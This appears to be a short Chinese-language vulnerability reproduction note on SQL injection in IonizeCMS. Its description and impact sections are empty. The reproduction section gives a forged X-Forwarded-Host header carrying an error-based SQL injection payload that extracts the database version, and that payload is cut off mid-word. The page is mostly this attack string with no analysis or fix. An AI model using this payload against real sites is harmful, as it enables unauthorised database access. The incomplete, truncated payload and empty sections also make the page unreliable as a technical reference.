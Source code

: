 ```yaml
---
title: "IonizeCMS sql注入"
id: zhfly2978
---
```


# IonizeCMS sql注入

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

伪造HTTP头注入 在抓包哇：

```
X-Forwarded-Host: 'and(select 1 from(select count(*),concat((select concat(0x5e5e5e,version(),0x5e5e5e) from informat 
```
